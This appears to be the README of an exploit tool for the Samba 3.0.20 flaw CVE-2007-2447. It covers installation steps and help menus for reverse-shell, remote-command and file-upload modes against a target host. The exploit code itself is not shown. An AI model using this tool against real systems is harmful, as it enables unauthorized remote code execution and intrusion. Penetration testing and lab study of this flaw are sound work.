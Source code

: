 # CVE-2007-2447: Samba 3.0.20 Exploit

https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447

## Installation

Clone this repository or download the `exploit.py` directly.

`git clone https://github.com/Bode-Raymond/Custom-Tools/`

`wget https://raw.githubusercontent.com/Bode-Raymond/Custom-Tools/main/Samba%203.0.20%20Exploit%20Script/exploit.py`

Install the required python modules

`pip install -r requirements.txt`

Run the script using python 3

`python3 exploit.py`

## Available Modes

- shell - Start a reverse shell on the target
- rce - Execute commands on the target
- upload - Upload a file to a specified location on the target

## Help Menus

### Default Help

```
Usage: python3 exploit.py <option> <arguments>

Options:
shell	Start a reverse shell
rce	Execute commands on the target
upload	upload file to target from webserver
```

### `Shell` Mode Help

```
python3 exploit.py shell <lhost> <lport> <rhost> <rport>

lhost	Local host IP
lport	Local host listening port
rhost	Remote host IP
rport	Remote host SMB port
```

### `RCE` Mode Help

```
python3 exploit.py rce <command> <rhost> <rport>

command	shell command to be executed, no output
rhost	Remote host IP
rport	Remote host SMB port
```

### `Upload` Mode Help

```
url		location of target file (use public ip)
target-location	Target file on the target computer
rhost		Remote host IP
rport		Remote host SMB port
```
